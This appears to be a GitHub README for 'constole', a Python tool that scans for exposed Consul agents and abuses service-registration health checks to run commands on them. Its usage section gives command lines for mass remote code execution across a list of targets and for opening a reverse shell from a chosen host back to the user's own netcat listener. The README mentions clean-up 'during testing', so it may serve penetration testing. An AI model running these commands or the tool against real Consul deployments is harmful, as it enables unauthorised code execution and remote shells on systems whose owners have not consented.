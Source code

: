 ## Overview
Scan for Consul agents and exploit them to gain shell.
I've been messing around with Consul and while reading the API, found the service registration endpoint.
Registrations feature check functionality, which is typically used to provide health checks on nodes.
A check can be an external application or script, which performs some kind of health check and provides some form of output.
Essentially, this can be any script you define to run at certain time intervals.

### Setup
```
pip install -r requirements.txt
```

### Usage
To scan for hosts running vulnerable Consul agent services, you can provide an comma-separated list with host:port,host:port,...,etc or an input file (1 target per line).
```
python constole.py --targets '10.50.30.1:8500,10.50.30.2:8500'
python constole.py --infile mytargets.txt
```
Remote Code Execution can be achieved across multiple hosts as follows:
```
python constole.py --infile mytargets.txt --cmd 'my command to run' --exploit
```
To obtain a reverse shell from the vulnerable host, start a netcat listener on your desired port and select a single target:
```
python constole.py --targets 10.50.30.1:8500 --lhost my_ip_address --lport my_listening_nc_port --exploit
```
Note that Constole will automatically try to deregister the service, after a time period, to assist in clean up during testing.
